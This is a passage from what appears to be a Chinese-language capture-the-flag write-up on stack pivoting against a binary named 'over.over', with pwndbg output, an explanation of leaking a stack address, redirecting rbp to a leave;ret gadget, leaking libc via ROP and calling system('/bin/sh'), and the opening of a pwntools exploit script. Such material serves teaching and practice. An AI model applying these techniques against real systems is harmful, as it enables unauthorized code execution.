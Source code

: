 ```C
 RIP  0x4006b9 ◂— call   0x400530
─────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────
 ► 0x4006b9    call   puts@plt <0x400530>
        s: 0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')

   0x4006be    leave
   0x4006bf    ret

   0x4006c0    push   rbp
   0x4006c1    mov    rbp, rsp
   0x4006c4    sub    rsp, 0x10
   0x4006c8    mov    dword ptr [rbp - 4], edi
   0x4006cb    mov    qword ptr [rbp - 0x10], rsi
   0x4006cf    mov    rax, qword ptr [rip + 0x20098a] <0x601060>
   0x4006d6    mov    ecx, 0
   0x4006db    mov    edx, 2
─────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► f 0           4006b9
   f 1           400715
   f 2     7ff756de02b1 __libc_start_main+241
Breakpoint *0x4006B9
pwndbg> stack 15
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
0a:0050│ rbp              0x7ffceaf111b0 —▸ 0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
0b:0058│                  0x7ffceaf111b8 —▸ 0x400715 ◂— test   eax, eax
0c:0060│                  0x7ffceaf111c0 —▸ 0x7ffceaf112b8 —▸ 0x7ffceaf133db ◂— './over.over'
0d:0068│                  0x7ffceaf111c8 ◂— 0x100000000
0e:0070│                  0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
pwndbg> distance 0x7ffceaf111d0 0x7ffceaf11160
0x7ffceaf111d0->0x7ffceaf11160 is -0x70 bytes (-0xe words)
```

leak 出栈地址后, 我们就可以通过控制 rbp 为栈上的地址(如 0x7ffceaf11160), ret addr 为 leave ret 的地址来实现控制程序流程了, 比如我们可以在 0x7ffceaf11160 + 0x8 填上 leak libc 的 rop chain 并控制其返回到 sub\_
400676 函数来 leak libc, 然后在下一次利用时就可以通过 rop 执行 system("/bin/sh") 来 get shell 了, 不过由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过多次调试来确定

#### exp
```python
others_over [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.log_level = "debug"
context.binary = "./over.over"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)


io = process("./over.over")
#  DEBUG("b *0x4006B9\nc")
elf = ELF("./over.over")
libc = elf.libc
```